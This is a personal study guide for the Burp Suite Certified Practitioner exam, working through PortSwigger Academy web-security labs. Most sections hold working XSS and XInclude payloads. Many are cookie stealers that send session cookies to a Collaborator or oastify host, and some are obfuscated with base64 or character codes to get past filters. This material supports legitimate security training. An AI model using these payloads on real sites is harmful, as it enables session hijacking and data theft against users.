# Burp Suite Certified Practitioner Exam Study  

>This is my study notes with over a 100 PortSwigger Academy labs that I used to pass the [Burp Suite Certified Practitioner](https://portswigger.net/web-security/certification) Exam and obtained my [BSCP qualification](https://portswigger.net/web-security/e/c/6e42f5738e5b9bf8).  
>Go to [PortSwigger Academy](https://portswigger.net/web-security/all-materials) to get the original learning materials.  
  
**[SCANNING](#scanning) - Enumeration**  
[Focus Scanning](#focus-scanning)  
[Scan non-standard entities](#scanning-non-standard-data-structures)  

**[FOOTHOLD](#foothold) - Stage 1**  
[Content Discovery](#content-discovery)  
[DOM-XSS](#dom-based-xss)  
[XSS Cross Site Scripting](#cross-site-scripting)  
[Web Cache Poison](#web-cache-poison)  
[Host Headers](#host-headers)  
[HTTP Request Smuggling](#http-request-smuggling)  
[Brute force](#brute-force)  
[Authentication](#authentication)  
  
**[PRIVILEGE ESCALATION](#privilege-escalation) - Stage 2**  
[CSRF - Account Takeover](#csrf-account-takeover)  
[Password Reset](#password-reset)  
[SQLi - SQL Injection](#sql-injection)  
[JWT - JSON Web Tokens](#jwt)  
[Prototype pollution](#prototype-pollution)  
[API Testing](#api-testing)  
[Access Control](#access-control)  
[GraphQL API Endpoints](#graphql-api)  
[CORS - Cross-origin resource sharing](#cors)  
  
**[DATA EXFILTRATION](#data-exfiltration) - Stage 3**  
[XXE - XML entities & Injections](#xxe-injections)  
[SSRF - Server side request forgery](#ssrf---server-side-request-forgery)  
[SSTI - Server side template injection](#ssti---server-side-template-injection)  
[SSPP - Server Side Prototype Pollution](#sspp---server-side-prototype-pollution)  
[LFI - File path traversal](#file-path-traversal)  
[File Uploads](#file-uploads)  
[Deserialization](#deserialization)  
[OS Command Injection](#os-command-injection)  
  
**[APPENDIX](#appendix)**  
[Python Scripts](#python-scripts)  
[Payloads](payloads/README.md)  
[Word lists](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/wordlists)  
[Focus target scanning](#focus-scanning)  
[Approach](#approach)  
[Extra Training Content](#extra-training-content)  

[My Burp Tips](#burp-exam-results)  
  
>I can recommend doing as many as possible [Mystery lab challenge](https://portswigger.net/web-security/mystery-lab-challenge) to test your skills and decrease the time it takes you to ***identify*** the vulnerabilities, before taking the exam.  
>I also found this PortSwigger advice on [Retaking your exam](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam?tid=SNL7Q8oXE1mjUW1rSgswXSPIjhdLL5210Y-ogEuD1GZVp1w5spKfl5OJjAtj8AAC) very informative.  
  
-----
<br><br><a href="https://www.buymeacoffee.com/botesjuan" target="_blank"></a>
>Thanks too all for the support by buying me ***coffee***, thanks you so much `\o/`  
  
[My Burp Suite Certified Practitioner certificate.](https://portswigger.net/web-security/e/c/6e42f5738e5b9bf8?utm_source=office&utm_medium=email&utm_campaign=burp-prac-cert-pass-success)  

-----

# Scanning  

>Enumeration of the Web Applications start with initial and directed scanning in time limited engagement.  

[Focus Scanning](#focus-scanning)  
[Scan non-standard entities](#scanning-non-standard-data-structures)  

## Focus Scanning  

>Due to the tight time limit during engagements or exam, [scan defined insertion points](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing) for specific requests.  

  

>Scanner detected **XML injection** vulnerability on storeId parameter and this lead to reading the secret Carlos file.  

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>
```  

>Out of band XInclude request, need hosted DTD to read local file.  

```xml
<hqt xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://COLLABORATOR.NET/foo"/></hqt>
```  

[PortSwigger Lab: Discovering vulnerabilities quickly with targeted scanning](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning)  

## Scanning non-standard data structures  

>Scanning non-standard data structures using Burp feature to scan selected insertion point for select text in response or requests.

  

>Identify the vulnerability through Burp scanner issue results.  
>In this case, using the identified XSS, Steal the admin user's cookies by crafting the payload in the ***identified*** insertion point.  

```
'"><svg/onload=fetch(`//COLLABORATOR.oastify.com/${encodeURIComponent(document.cookie)}`)>:CURRENT-USER-LOGIN-COOKIE-2ND-PART
```  

>Url encode key characters.  

  

>Use the admin user's cookie to access the admin panel by replacing it in the current browser session.  

[PortSwigger Lab: Scanning non-standard data structures](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-scanning-non-standard-data-structures)  
    
-----

# Foothold  
  
# Content Discovery  

>Enumeration of target start with fuzzing web directories and files. Either use the Burp engagement tools, content discovery option to find hidden paths and files or use `FFUF` to enumerate web directories and files. Looking at `robots.txt` or `sitemap.xml` that can reveal content.  

```bash
wget https://raw.githubusercontent.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/main/wordlists/burp-labs-wordlist.txt

ffuf -c -w ./burp-labs-wordlist.txt -u https://TARGET.web-security-academy.net/FUZZ
```  

>Burp engagement tool, content discovery using my compiled word list [burp-labs-wordlist](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/wordlists/burp-labs-wordlist.txt) as custom file list.  

  

>Examine the git repo branches on local downloaded copy, using `git-cola` tool. Then select **Undo last commit** and extract admin password from the diff window.  

```
wget -r https://TARGET.web-security-academy.net/.git/

git-cola --repo 0ad900ad039b4591c0a4f91b00a600e7.web-security-academy.net/
```  

  

[PortSwigger Lab: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)  

>Always open `source code` to look for any developer comments that reveal hidden files or paths. Below example lead to [symphony token deserialization](#deserialization).  

  
  
-----

## DOM-Based XSS  

[DOM XSS Indicators](#identify-dom-xss)  
[DOM XSS Identified with DOM Invader](#dom-invader)  
[DOM XSS AngularJS](#vuln-angularjs)  
[DOM XSS document.write in select](#doc-write-location-search)  
[DOM XSS JSON.parse web messages](#dom-xss-jsonparse-web-messages)  
[DOM XSS AddEventListener JavaScript URL](#dom-xss-addeventlistener-javascript-url)  
[DOM XSS AddEventListener Ads Message](#dom-xss-addeventlistener-ads-message)  
[DOM XSS Eval Reflected Cookie Stealer](#reflected-dom-xss)  
[DOM XSS LastviewedProduct Cookie](#dom-xss-lastviewedproduct-cookie)  

### Identify DOM-XSS  

>DOM-based XSS vulnerabilities arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes code to a sink that supports dynamic code execution. 
>Test which characters enable the escaping out of the `source code` injection point, by using the fuzzer string below.  

```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```  

>Review the `source code` to ***identify*** the **sources** , **sinks** or **methods** that may lead to exploit, list of samples:  

* document.write()  
* window.location  
* document.cookie  
* eval()  
* document.domain  
* WebSocket()  
* element.src  
* postMessage()  
* setRequestHeader()  
* FileReader.readAsText()  
* ExecuteSql()  
* sessionStorage.setItem()
* document.evaluate()
* JSON.parse
* ng-app
* URLSearchParams
* replace()
* innerHTML
* location.search
* addEventListener  
* sanitizeKey()  
  
### Dom Invader  

>Using Dom Invader plug-in and set the canary to value, such as `domxss`, it will detect DOM-XSS sinks that can be exploit.  

  

### Vulnerable AngularJS  
  
>AngularJS expression below can be injected into the search function when angle brackets and double quotes HTML-encoded. The vulnerability is ***identified*** by noticing the search string is enclosed in an **ng-app** directive and `/js/angular 1-7-7.js` script included. Review the HTML code to ***identify*** the `ng-app` directive telling AngularJS that this is the root element of the AngularJS application.  

  

>PortSwigger lab payload below:

```JavaScript
{{$on.constructor('alert(1)')()}}
```  

>Cookie stealer payload using `on.constructor` that can be placed in iframe, hosted on an exploit server, resulting in the victim session cookie being send to Burp Collaborator.  
>[PortSwigger cheat sheet for cross site scripting reference](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-reflected--1.0.1---1.1.5-(shorter))  

```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```  

>**Note:** The session cookie property must not have the **HttpOnly** secure flag set in order for XSS to succeed.  

  

[PortSwigger Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)  

[z3nsh3ll give an amazingly detail understanding on the constructor vulnerability in this lab on YouTube](https://youtu.be/QpQp2JLn6JA)  

### Doc Write Location search  

>The target is vulnerable to DOM-XSS in the stock check function. `source code` reveal ```document.write``` is the sink used with ```location.search``` allowing us to add **storeId** query parameter with a value containing the JavaScript payload inside a ```<select>``` statement.  

  

>Perform a test using below payload to ***identify*** the injection into the modified GET request, using `">` to escape.  

```html
/product?productId=1&storeId=fuzzer"></select>fuzzer
```

  

>DOM XSS cookie stealer payload in a `document.write` sink using source `location.search` inside a `<select>` element. This can be send to victim via exploit server in `<iframe>`. To test the cookie stealer payload I again on my browser in console added a test POC cookie to test sending it to Collaborator.  

```html
"></select><script>document.location='https://COLLABORATOR.com/?domxss='+document.cookie</script>//
```  

  

[PortSwigger Lab: DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)  
  
### DOM XSS JSON.parse web messages    

>Target use web messaging and parses the message as JSON. Exploiting the vulnerability by constructing an HTML page on the exploit server that exploits DOM XSS vulnerability and steal victim cookie.  


>The vulnerable JavaScript code on the target using event listener that listens for a web message. This event listener expects a **string** that is parsed using **JSON.parse()**. In the JavaScript below, we can see that the event listener expects a **type** property and that the **load-channel** case of the **switch** statement changes the **img src** attribute.  

>***Identify*** web messages on target that is using **postmessage()** with **DOM Invader**.  

```JavaScript
<script>
	window.addEventListener('message', function(e) {
		var img = document.createElement('img'), ACMEplayer = {element: img}, d;
		document.body.appendChild(img);
		try {
			d = JSON.parse(e.data);
		} catch(e) {
			return;
		}
		switch(d.type) {
			case "page-load":
				ACMEplayer.element.scrollIntoView();
				break;
			case "load-channel":
				ACMEplayer.element.src = d.url;
				break;
			case "player-height-changed":
				ACMEplayer.element.style.width = d.width + "px";
				ACMEplayer.element.style.height = d.height + "px";
				break;
			case "redirect":
				window.location.replace(d.redirectUrl);
				break;
		}
	}, false);
</script>
```  

>To exploit the above `source code`, inject JavaScript into the **JSON** data to change "load-channel" field data and steal document cookie.  
  
>Host an **iframe** on the exploit server html body, and send it to the victim, resulting in the stealing of their cookie. The victim cookie is send to the Burp collaboration server.  

```html
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>

```  

>At the end of the iframe onload values is a "*", this is to indicate the target is any.  
  
[PortSwigger Lab: DOM XSS using web messages and JSON.parse](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)  

  

>Replay the post message using DOM Invader after altering the JSON data.  

```JSON
{
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}
```  

  
  
[PortSwigger: Identify DOM XSS using PortSwigger DOM Invader](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/web-messages)  

### DOM XSS AddEventListener JavaScript URL  

>Reviewing the page `source code` we ***identify*** the ```addeventlistener``` call for a web message but there is an `if` condition checking if the string contains ```http/s```.  

  

>The exploit server hosted payload below includes the ```https``` string, and is successful in bypassing the `if` condition check.  

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('javascript:document.location=`https://Collaborator.com?c=`+document.cookie','*')">
```  

  
  
[PortSwigger Lab: DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)  
  
### DOM XSS AddEventListener Ads Message  

>In the `source code` we ***identify*** the call using ```addEventListener``` and an element id ```ads``` being referenced.  

  

>The ```fetch``` function enclose the collaborator target inside **back ticks**, and when the iframe loads on the victim browser, the postMessage() method sends a web message to their home page.  

```html
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('','*')">
```  

>Replacing the Burp Lab payload ```print()``` with ```fetch()``` in the above code allow attacker to steal the victim session cookie.  

  

[PortSwigger Lab: DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)  

### Reflected DOM XSS  

>In the **Search** function a Reflected DOM-XSS vulnerability is ***identified*** using DOM Invader as being inside an `eval()` function.  

  

>***Identify*** that the search JavaScript `source code` on the target, the string is reflected in a JSON response called search-results.
From the Site Map, open the `searchResults.js` file and notice that the JSON response is used with an `eval()` function call.

  

>Testing `\"-alert(1)}//` payload we successfully escape the `eval()`. The attacker then craft an exploit phishing link to the victim with a cookie stealing payload hosted on exploit server.  
>Above payload validate that the backslash **\\** is not sanitized, and the JSON data is then send to `eval()`.  Backslash is not escaped correctly and when the JSON response attempts to escape the opening double-quotes character, it adds a **second** backslash. The resulting double-backslash causes the escaping to be effectively **cancelled out**.  

```JavaScript
\"-fetch('https://COLLABORATOR.com?reflects='+document.cookie)}//
```  

>In the above payload every character is URL encoded and used as the search parameter value. This target do not have an exploit server, so I hosted my own `python3 -m http.server 80` web service and save the `index.html` file that contain the `location` target URL between `<script>` tags. 

  

>In the image above, I create insecure POC cookie value in my browser before simulating a victim user clicking on `http://localhost/index.html` link, same as Burp Exploit server, that is the same as the Deliver exploit to victim function.  

[PortSwigger Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)  

### DOM-XSS LastviewedProduct Cookie  

>Identify the cookie ```lastViewedProduct``` is set to the last URL visited under the product page. In the `source code` we identify the injection script tags where ```window.location``` is set.   

  

>Testing the escape out of of the script string for the value of **document.location** using ```/product?productId=1&'>fuzzer```. Note that **document.location** value cannot be URL encoded.  

```html
<iframe src="https://TARGET.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://TARGET.net';window.x=1;">
```  

I am unable to get a working cookie stealer payload for this vulnerable lab.......

[PortSwigger Lab: DOM-based cookie manipulation](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)  
  
-----

## Cross Site Scripting  

[XSS Resources](#xss-resources)  
[Identify allowed Tags](#identify-allowed-tags)  
[Bypass Blocked Tags](#bypass-blocked-tags)  
[XSS Assign protocol](#xss-assign-protocol)  
[Custom Tags not Blocked](#custom-tags-not-blocked)  
[OnHashChange](#onhashchange)  
[Reflected String XSS](#reflected-string-xss)  
[Reflected String Extra Escape](#reflected-string-extra-escape)  
[AngularJS Sandbox Escape](#angularjs-sandbox-escape)  
[XSS Template Literal](#xss-template-literal)  
[XSS via JSON into EVAL](#xss-via-json-into-eval)  
[Stored XSS](#stored-xss)  
[Stored DOM XSS](#stored-dom-xss)  
[XSS in SVG Upload](#xss-svg-upload)  
  
### XSS Resources  

>XSS Resources pages to lookup payloads for **tags** and **events**.   

+ [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
+ [PayloadsAllTheThings (XSS)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)
+ [HackTheBox CPTS Study notes on XSS](https://github.com/botesjuan/cpts-quick-references/blob/main/module/Cross-site-scripting-xss.md)  

>CSP Evaluator tool to check if content security policy is in place to mitigate XSS attacks. Example is if the `base-uri` is missing, this vulnerability will allow attacker to use the alternative exploit method described at [Upgrade stored self-XSS](#upgrade-stored-self-xss).  

+ [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  
  
>When input field maximum length is at only 23 character in length then use this resource for **Tiny XSS Payloads**.  

+ [Tiny XSS Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)  

>Set a unsecured test cookie in browser using browser DEV tools console to use during tests for POC XSS cookie stealer payloads.  

```JavaScript
document.cookie = "TopSecret=UnsecureCookieValue4Peanut2019";
```  
  
### Identify allowed Tags  

>Basic XSS Payloads to ***identify*** application security filter controls for handling data received in HTTP request.  

```html

```  

```html
"><svg><animatetransform onbegin=alert(1)>
```  

```
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(69)-"fuzzer
```  

>Submitting the above payloads may give response message, ***"Tag is not allowed"***. Then ***identify*** allowed tags using [PortSwigger Academy Methodology](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked).  

>URL and Base64 online encoders and decoders  

+ [URL Decode and Encode](https://www.urldecoder.org/)  
+ [BASE64 Decode and Encode](https://www.base64encode.org/)  
  
>This lab gives great **Methodology** to ***identify*** allowed HTML tags and events for crafting POC XSS.  

>Host **iframe** code on exploit server and deliver exploit link to victim.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Cbody%20onpopstate=print()%3E">  
```  

[PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  

>In below sample the tag **Body** and event **onresize** is the only allowed, providing an injection to perform XSS.  

```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```  

>This example show the **Body** and event **onpopstate** is not blocked.  
  
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```  

[PortSwigger Cheat-sheet XSS Example: onpopstate event](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

>Below JavaScript is hosted on exploit server and then deliver to victim. The `code` is an iframe doing **onload** and the search parameter is vulnerable to **onpopstate**.  

```JavaScript
<iframe onload="if(!window.flag){this.contentWindow.location='https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>#';flag=1}" src="https://TARGET.net?search=<body onpopstate=document.location=`http://COLLABORATOR.com/?`+document.cookie>"></iframe>
```  

### Bypass Blocked Tags   
  
>Application controls give message, ***"Tag is not allowed"*** when inserting basic XSS payloads, but discover SVG mark-up allowed using above [methodology](#identify-allowed-tags). This payload steal my own session cookie as POC.  

```html
https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2Fcollaboration.net%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E
```  

>Place the above payload on exploit server and insert URL with search value into an ```iframe``` before delivering to victim in below code block.  

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.com%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E">
</iframe>
```  
  
  
  
[PortSwigger Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)  
  
### XSS Assign protocol  

>Lab to test XSS into HTML context with nothing encoded in search function. Using this lab to test the **Assignable protocol with location** ```javascript``` exploit ***identified*** by [PortSwigger XSS research](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#assignable-protocol-with-location). In the payload is the ```%0a``` representing the ASCII newline character.  

```html
<script>location.protocol='javascript';</script>#%0adocument.location='http://COLLABORATOR.NET/?p='+document.cookie//&context=html
```  

  

[PortSwigger Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)  
  
### Custom Tags not Blocked  
  
>Application respond with message ***"Tag is not allowed"*** when attempting to insert XSS payloads, but if we create a custom tag it is bypassed.  

```html
<xss+id=x>#x';
```  

***Identify*** if above custom tag is not block in search function, by observing the response. Create below payload to steal session cookie out-of-band.  

```
<script>
location = 'https://TARGET.net/?search=<xss+id=x+onfocus=document.location='https://Collaborator.COM/?c='+document.cookie tabindex=1>#x';
</script>
```
   
>**Note:** The custom tag with the ID ```x```, which contains an **onfocus** event handler that triggers the ```document.location``` function. The **HASH** `#` character at the end of the URL focuses on this element as soon as the page is loaded, causing the payload to be called. Host the payload script on the exploit server in ```script``` tags, and send to victim. Below is the same payload but **URL-encoded** format.  

```
<script>
location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.COM%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```  

  
  
[PortSwigger Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)  

[z3nsh3ll - explaining custom tags for XSS attacks](https://youtu.be/sjs6RS7lURk)  
  
### OnHashChange  

>Below iframe uses **HASH** `#` character at end of the URL to trigger the **OnHashChange** XSS cookie stealer.  
  
```JavaScript
<iframe src="https://TARGET.net/#" onload="document.location='http://COLLABORATOR.com/?cookies='+document.cookie"></iframe>
```  

>Note if the cookie is secure with **HttpOnly** flag set enabled, the cookie cannot be stolen using XSS.  

>PortSwigger Lab payload perform print.  

```JavaScript
<iframe src="https://TARGET.net/#" onload="this.src+=''"></iframe>
```  

>Note: ***Identify*** the vulnerable jquery 1.8.2 version included in the `source code` with the CSS selector action a the **hashchange**.  

  

[PortSwigger Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)  
  
[Crypto-Cat: DOM XSS in jQuery selector sink using a hashchange event](https://github.com/Crypto-Cat/CTF/blob/main/web/WebSecurityAcademy/xss/dom_xss_jquery_hashchange/writeup.md)  

### Reflected String XSS  

>Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is ***identified*** to reflect the search string `tracker.gif` in the `source code` with a variable named `searchTerms`.  

```html
<section class=blog-header>
	<h1>0 search results for 'fuzzer'</h1>
	<hr>
</section>
<section class=search>
	<form action=/ method=GET>
		<input type=text placeholder='Search the blog...' name=term>
		<button type=submit class=button>Search</button>
    </form>
    </section>
	<script>
    var searchTerms = 'fuzzer';
    document.write('');
</script>
```  

  

>Using a payload ```test'payload``` and observe that a single quote gets backslash-escaped, preventing breaking out of the string.  

```JavaScript
</script><script>alert(1)</script>
```  

>Changing the payload to a cookie stealer that deliver the session token to Burp Collaborator. 

```html
</script><script>document.location="https://Collaborator.net/?cookie="+document.cookie</script>
```  

  

>When placing this payload in `iframe`, the target application do not allow it to be embedded and give message: `refused to connect`.  
  
[PortSwigger Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)  
  
>In BSCP exam host the below payload on exploit server inside `<script>` tags, and the search query below before it is URL encoded.  

```
</ScRiPt >
```  

>Exploit Server hosting search term reflected vulnerability that is send to victim to obtain their session cookie.  

```html
<script>
location = "https://TARGET.net/?search=%3C%2FScRiPt+%3E%3Cimg+src%3Da+onerror%3Ddocument.location%3D%22https%3A%2F%2FCOLLABORATOR.com%2F%3Fbiscuit%3D%22%2Bdocument.cookie%3E"
</script>
```  

>The application gave error message `Tag is not allowed`, and this is bypassed using this `</ScRiPt >`.  

### Reflected String Extra Escape  

>See in `source code` the variable named ```searchTerms```, and when submitting payload ```fuzzer'payload```, see the single quote is backslash escaped, and then send a  ```fuzzer\payload``` payload and ***identify*** that the backslash is not escaped.  

```
\'-alert(1)//  

fuzzer\';console.log(12345);//  

fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
```

>Using a single **backslash**, single quote and **semicolon** we escape out of the JavaScript string variable, then using back ticks to enclose the ```document.location``` path, allow for the cookie stealer to bypass application protection.  

```
\';document.location=`https://COLLABORATOR.com/?BackTicks=`+document.cookie;//
```  

>With help from Trevor I made this into cookie stealer payload, using back ticks. Thanks Trevor, here is his Youtube walk through [XSS JavaScript String Angle Brackets Double Quotes Encoded Single](https://youtu.be/Aqfl2Rj0qlU?t=598)  
  
  
  
[PortSwigger Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)  
  
### AngularJS Sandbox Escape  

>Expert PortSwigger Lab exercise using AngularJS 1.4.4 and versions 1.x has reached end of life and is no longer maintained.  
>This lab uses **AngularJS** in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.  
>Objective, perform a cross-site scripting attack that escapes the sandbox and executes the payload without using the `$eval` function.  

[z3nsh3ll - YouTube Video give a great explanation of this Reflected XSS with AngularJS Sandbox Escape Without Strings](https://youtu.be/gKLHVT67sU0?si=tqQMb5Y6xLA-jgR4)  

>***Identify*** the `angular.module` in JavaScript source code:  

  

>The `key` variable value `search` is injected into the JavaScript created dynamically.  
>No obvious security issue present here. However, the security of this code depends on how this controller and the extracted values are used in the back-end.  

>The `$parse` method evaluates the AngularJS expression `$scope.query`.  

>Using the `&` to add second key value pair to test payload dynamic code generated.  

  

>Changing the second added key value name to expression to determine if evaluated, `/?search=key1value&7*7=payload` and math result is 49.  

  

>Constructing a payload fails when using `alert()` as the second key name in how angularJS compile the code through the parser.  

>[AngulaJS sandbox - See PortSwigger Client-Side template injection documents](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection)  

>[PortSwigger CheatSheet Reference Sandbox 1.4.4 escape](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings))  

```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

>Collaborator payload ***cookie stealer***:  

```
x=fetch('https://m9w8haeauh0frftrtjdvexkyrpxgl69v.oastify.com/?z='+document.cookie)
```

>The ASCII decimal values for each character in the above payload string, separated by commas. Each number represents the ASCII decimal value of the corresponding character in the payload string.  

```
120,61,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,103,112,57,111,49,56,57,51,106,97,107,49,100,122,101,55,117,116,118,50,114,107,118,114,48,105,54,57,117,122,105,111,46,111,97,115,116,105,102,121,46,99,111,109,47,63,122,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41
```  

>Python script to convert any payload to ASCIII decimal values:  

```python
import sys

print('Python String to ASCII Converter!')
if len(sys.argv) != 2:
    print("Usage: Python ascii_converter.py 'Payload_String'")
    sys.exit(1)

input_string = sys.argv[1]
ascii_values = [str(ord(char)) for char in input_string]

output = ",".join(ascii_values)
print(output)
print('PortSwigger Expert Academy Labs!')
```  

  

>Cookie Stealer Payload in ASCII decimal value AngularJS expression run through sandbox, from the PortSwigger solution steps:

1. The exploit uses `toString()` to create a string without using quotes.
2. Then gets the String prototype and overwrites the `charAt` function for every string.
3. This breaks the AngularJS sandbox. allow an array passed to the `orderBy` filter.
4. Set the argument for the filter by again using `toString()` to create a string and the String constructor property.
5. Finally, use the `fromCharCode` method generate our payload by converting character codes into the payload example `x=alert(1)`.  
6. The `charAt` function has been overwritten, AngularJS will allow this code to escape the **Sandbox**.  

  

>[PortSwigger Expert Lab: Reflected XSS with AngularJS sandbox escape without strings](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings)  

### XSS Template Literal  

>JavaScript template literal is ***identified*** by the back ticks **`** used to contain the string. On the target code we ***identify*** the search string is reflected inside a template literal string.  

```
${alert(document.cookie)}
```  

  
  
>I fail to get a working cookie stealer bypassing all the filters for this lab......  

[PortSwigger Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)  

### XSS via JSON into EVAL  

>This [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html) is performing search function and the **DOM Invader** ***identify*** the sink in an ` eval() ` function. The search results are placed into JSON content type.  

  

>Test escape out of the `JSON` data and inject test payload `"-prompt(321)-"` into the JSON content.  

  

>Attempting to get our own session cookie value with payload of `"-alert(document.cookie)-"` and filter message is returned stating `"Potentially dangerous search term"`.

>WAF is preventing dangerous search filters and tags, then we bypass WAF filters using JavaScript global variables.  

```JavaScript
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
```  

[secjuice: Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/)  

>Below is the main cookie stealer payload before BASE 64 encoding it.  

```JavaScript
fetch(`https://COLLABORATOR.com/?jsonc=` + window["document"]["cookie"])
```  

>Next is encode payload using [Base64 encoded](https://www.base64encode.org/) value of the above cookie stealer payload.  

```
ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ==
```  

>Test payload on our own session cookie in Search function.  

```JavaScript
"-eval(atob("ZmV0Y2goYGh0dHBzOi8vNHo0YWdlMHlwYjV3b2I5cDYxeXBwdTEzdnUxbHBiZDAub2FzdGlmeS5jb20vP2pzb25jPWAgKyB3aW5kb3dbImRvY3VtZW50Il1bImNvb2tpZSJdKQ=="))-"
```  

>Unpacking above payload assembly stages:  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 format strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  
>This image shows Burp Collaborator receiving the my cookie value as proof of concept before setting up payload to `Deliver exploit to victim`.  

  

>[URL Encode](https://www.urlencoder.org/) all characters in this payload and use as the value of the `/?SearchTerm=` parameter.  

```html
